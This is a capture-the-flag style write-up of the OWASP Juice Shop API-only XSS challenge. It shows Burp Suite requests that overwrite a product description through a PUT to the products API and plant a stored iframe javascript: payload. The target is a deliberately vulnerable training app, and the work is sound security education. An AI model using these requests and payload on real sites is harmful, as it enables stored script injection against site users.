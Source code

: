 # API-only XSS Challenge Report

> [!CAUTION]  
> **Only for Testing Purposes.**  
> Documentation in this repository is entirely written for educational purposes.

**Project**: OWASP Juice Shop - API-only XSS Challenge (XSS) <br>
**Tools**: Kali Linux with Burp Suite <br>
**Author**: Pascal Nehlsen <br>
**Portfolio**: [https://www.pascal-nehlsen.de/](https://www.pascal-nehlsen.de/) <br>
**GitHub Link**: [https://github.com/PascalNehlsen/juice-shop-challenges/challenges/api-only-xss.md](https://github.com/PascalNehlsen/juice-shop-challenges/challenges/api-only-xss.md)

## Table of Contents

1. [Introduction](#Introduction)
2. [Objective](#Objective)
3. [Approach](#Approach)
   - [Step 1: Information Gathering](#step-1-information-gathering)
   - [Step 2: Analyzing API Endpoints](#step-2-analyzing-api-endpoints)
   - [Step 3: Injecting XSS Payload](#step-3-injecting-xss-payload)
4. [Conclusion](#Conclusion)

### Introduction

The OWASP Juice Shop is a deliberately vulnerable web application designed to demonstrate security issues, including Cross-Site Scripting (XSS). This report details the steps I followed to complete the API-only XSS challenge.

### Objective

The objective of this challenge was to exploit an XSS vulnerability through the API endpoints of the Juice Shop application. The approach involved embedding malicious scripts into a product's description to see if these would execute in the browser. Successfully completing the challenge required persisting an XSS payload within the application.

### Approach

#### Step 1: Information Gathering

To identify where persistent data is stored within the shop, I examined product descriptions as a likely target. Using Burp Suite's "Intercept" feature, I intercepted the HTTP requests within the application to analyze the API calls involved.

<div align="center">

![Information Gathering](/images/api-only-xss/information.png)

</div>

Upon reviewing the HTTP history, I found a `GET` request to `/api/Quantitys/`. I then sent this request to Burp Suite's Repeater tool for modification. By changing the API endpoint to `/api/Products/`, I accessed a complete JSON response containing all product details.

Sample Product in JSON Format:

```json
{
  "id": 1,
  "name": "Apple Juice (1000ml)",
  "description": "The all-time classic.",
  "price": 1.99,
  "deluxePrice": 0.99,
  "image": "apple_juice.jpg",
  "createdAt": "2024-10-24T10:01:58.486Z",
  "updatedAt": "2024-10-24T10:01:58.486Z",
  "deletedAt": null
}
```

#### Step 2: Analyzing API Endpoints

After identifying the product data, I further explored the Juice Shop API endpoints. By sending an `OPTIONS` request to `/api/Products/`, I confirmed that the API supports standard HTTP methods (GET, POST, PUT, PATCH).

```bash
OPTIONS /api/Products/ HTTP/1.1
```

Since attempts to update product data with the `PATCH` method were unsuccessful (resulting in a 500 status code), I opted to use the `PUT` method, which replaces data in its entirety. Additionally, I set the `Content-Type` to `application/json`, as the GET response data format was JSON. With IDs listed in the JSON data, I accessed the first product directly via `/api/products/1`.

I first tested updating the product description without any XSS payload:

**PUT Request to Update Product Description**

```bash
PUT /api/products/1 HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json
Connection: keep-alive

{
"description": "OWASP is King"
}
```

The server responded with a 200 status code, confirming the update:

```json
{
  "status": "success",
  "data": {
    "id": 1,
    "name": "Apple Juice (1000ml)",
    "description": "OWASP is King",
    "price": 1.99,
    "deluxePrice": 0.99,
    "image": "apple_juice.jpg",
    "createdAt": "2024-10-24T10:01:58.486Z",
    "updatedAt": "2024-10-24T11:06:53.363Z",
    "deletedAt": null
  }
}
```

On checking the OWASP Juice Shop UI, the product description was successfully updated.

<div align="center">

![New Product](/images/api-only-xss/new-product.png)

</div>

#### Step 3: Injecting XSS Payload

To complete the challenge, I attempted to add an iframe to the description with a JavaScript payload:

```json
{
  "description": "<iframe src=\"javascript:alert(`xss`)\">"
}
```

When testing without escaped double quotes, the server returned a 500 error due to syntax issues. Adding backslashes before the double quotes (`\"`) allowed the payload to be processed, resulting in a 200 status code.

Upon refreshing the OWASP Juice Shop page, I observed the modified product description. The XSS payload executed as intended when viewing the product, confirming the successful exploitation of the XSS vulnerability.

<div align="center">

![Information Gathering](/images/api-only-xss/result.png)

</div>

### Conclusion

This test successfully completed the API-only XSS Challenge by embedding a persistent XSS payload in the description of the Apple Juice product through a direct API request, bypassing the web frontend.

<div align="center">

![Challenge Accepted](/images/api-only-xss/challenge-accept.png)

</div>
